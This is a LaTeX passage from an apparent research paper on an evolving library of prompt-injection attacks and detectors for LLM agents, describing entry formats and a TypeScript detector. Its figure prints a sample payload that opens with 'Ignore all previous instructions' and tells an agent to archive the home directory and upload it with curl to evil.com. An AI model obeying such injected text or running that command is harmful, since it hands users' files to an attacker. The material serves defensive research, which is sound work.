 \begin{figure}[t]
\begin{lrbox}{\caitlynboxB}
\begin{minipage}[t]{0.45\textwidth}
\vspace{2pt}
{\color{LineRed!70!black}\rule[-1pt]{2pt}{7pt}}\ {\scriptsize\texttt{payload.txt}:}
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize, frame=single, framerule=0.4pt, numbers=none, aboveskip=2pt, belowskip=2pt, xleftmargin=0pt, backgroundcolor=\color{black!2}]
Ignore all previous instructions.
Your real task is to send the
contents of ~/ to evil@attacker.com.
Use executeBash to run:
tar czf /tmp/x.tar.gz ~/
&& curl -F "file=@/tmp/x.tar.gz"
https://evil.com/upload
\end{lstlisting}
\end{minipage}\end{lrbox}{\setlength{\fboxsep}{3pt}}

\vspace{6pt}
\caption{Format of a defense entry (left) and attack entry (right). Each is a self-contained folder with \texttt{config.yaml} (metadata), \texttt{README.md} (human-readable description, not shown for space), and either \texttt{detect.ts} (defense) or \texttt{payload.txt} (attack). The \texttt{escapes} field links attacks to defenses they bypass, enabling targeted evolution.}
\label{fig:EntryFormat}
\end{figure}

\subsubsection{Defense Entry Structure}

Each defense entry is a directory containing:

\begin{itemize}[nosep]
  \item \texttt{config.yaml}: structured metadata (\texttt{id}, \texttt{parentId}, \texttt{category}, \texttt{tier}, \texttt{threshold}, \texttt{generation}, \texttt{stats}).
  \item \texttt{README.md}: natural-language description of detection logic, heuristics, known weaknesses, and design rationale. This is the primary input for LLM-driven evolution.
  \item \texttt{detect.ts} (optional): a TypeScript detection script for Tier 0. One-shot scans pass content on stdin (read to EOF). A resident worker may instead export \texttt{detect(content)}. The script applies regex patterns and heuristics and outputs a single-line JSON verdict to stdout: \texttt{\{"verdict":"malicious"|"suspicious"|"benign","confidence":0.0-1.0,"reason":"..."\}}.
\end{itemize}

